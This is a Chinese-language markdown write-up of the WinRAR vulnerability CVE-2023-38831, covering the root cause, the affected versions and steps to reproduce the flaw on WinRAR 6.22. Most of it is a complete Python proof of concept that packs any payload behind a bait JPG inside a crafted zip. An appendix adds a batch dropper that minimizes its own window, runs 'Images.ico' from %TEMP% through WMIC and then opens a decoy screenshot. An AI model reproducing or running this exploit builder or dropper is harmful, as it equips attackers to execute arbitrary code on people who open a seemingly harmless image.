

 WinRAR 在处理压缩包内同名的文件与文件夹时存在代码执行漏洞。攻击者构建由恶意文件与非恶意文件构成的特制压缩包文件，诱导受害者打开此文件中看似无害的文件（如JPG文件）后，将在受害者机器上执行任意代码。目前此漏洞存在在野利用。

## 漏洞原理

ShellExecute 函数接收到打开文件的错误参数。图片的文件名不符合搜索条件，导致被跳过。最终Winrar发现并执行批处理文件，而不是查找预期的图片。 

影响版本：WinRAR <6.23 

## 漏洞复现

实际测试了多个winrar版本：下载链接：https://winrar.en.uptodown.com/windows/versions

1.电脑上安装Winrar6.22

2.生成poc.zip或者poc.rar文件，默认用winrar打开，测试了发现bat和dos脚本可以成功执行，而vbs无法执行。

3.打开zip，双击jpg文件，此时目录下的脚本被执行。



[611下载](https://www.winrar.com.cn/download/winrar-x64-611scp.exe)

[官网623下载地址](https://www.rarlab.com/rar/winrar-x64-623sc.exe)


## POC

> [Go版本的](https://github.com/Garck3h/cve-2023-38831 )

```
import os
import zipfile
import shutil

TempFile = "result"

def main():
    print("cve-2023-38831.py by Garck3h,modified by Paul\n")
    args = os.sys.argv[1:]  # Get command-line arguments
    argLen = len(args)

    if argLen > 2:
        TypeFile = os.path.basename(args[0])  # Extract file type
        Payload = os.path.basename(args[1])   # Extract payload file
        file_extension = os.path.splitext(Payload)[1]
        OuputFile = os.path.basename(args[2])  # Extract output file
    else:
        print("Usage:\n    python cve-2023-38831.py <TypeFile> <Payload> <OuputFile>")
        os.sys.exit(1)

    print("TypeFile:", TypeFile)
    print("Payload:", Payload)
    print("OuputFile:", OuputFile)


    try:
        os.mkdir(TempFile)  # Create temporary directory
    except Exception as e:
        print(e)
        os.sys.exit(1)

    d = os.path.join(TempFile, TypeFile + "A")
    try:
        os.mkdir(d, 0o755)  # Create subdirectory under temporary directory
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        shutil.copy(Payload, os.path.join(d, TypeFile + "A"+file_extension))  # Copy payload file to TypeFileA.cmd
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        shutil.copy(TypeFile, os.path.join(TempFile, TypeFile + "B"))  # Copy file type file to TypeFileB
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        zip_directory(TempFile)  # Zip the temporary directory
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        with open(TempFile + ".zip", "rb") as file:
            file_content = file.read()  # Read the compressed file content
    except Exception as e:
        print(e)
        os.sys.exit(1)

    bait_ext = "." + TypeFile.split(".")[1]  # Extract file extension
    file_content = bytes_replace(file_content, bait_ext.encode() + b"A", bait_ext.encode() + b" ")  # Replace "TypeFileA" with "TypeFile "
    file_content = bytes_replace(file_content, bait_ext.encode() + b"B", bait_ext.encode() + b" ")  # Replace "TypeFileB" with "TypeFile "

    try:
        os.remove(TempFile + ".zip")  # Delete temporary zip file
    except Exception as e:
        print(e)
        os.sys.exit(1)

    try:
        print("Changing suffix..")
        with open(OuputFile, "wb") as file:
            file.write(file_content)  # Write modified content to output file
    except Exception as e:
        print(e)
        os.sys.exit(1)
    try:
        shutil.rmtree(TempFile)  # Delete temporary directory
    except Exception as e:
        print(e)
        os.sys.exit(1)
    print("Generation completed")

def copy_file(src, dst):
    with open(src, "rb") as in_file, open(dst, "wb") as out_file:
        out_file.write(in_file.read())

def zip_directory(dir_name):
    with zipfile.ZipFile(TempFile + ".zip", "w", zipfile.ZIP_DEFLATED) as zip_file:
        for root, _, files in os.walk(dir_name):
            for file in files:
                file_path = os.path.join(root, file)
                arcname = os.path.relpath(file_path, dir_name)
                zip_file.write(file_path, arcname=arcname)

def bytes_replace(source, old, new):
    return source.replace(old, new)

if __name__ == "__main__":
    main()
```


自解压缩包 (Self-extracting archive)

 一个 **Cabinet Self-extractor file** (袖珍自我提取文件)，通常称为 SFX CAB 文件 

## 附录

记录一个dos命令

```
@echo off
if not DEFINED IS_MINIMIZED (
  set IS_MINIMIZED=1
  start "" /min "%~dpnx0" %*
  exit
)

cd %TEMP%

for /F "delims=" %%K in ('dir /b /s "Screenshot_05-04-2023.jpg"') do (
  for /F "delims=" %%G in ('dir /b /s "Images.ico"') do (
    WMIC process call create "%%~G"
    "%%~K"
    cd %CD%
    exit
  )
)
exit
```

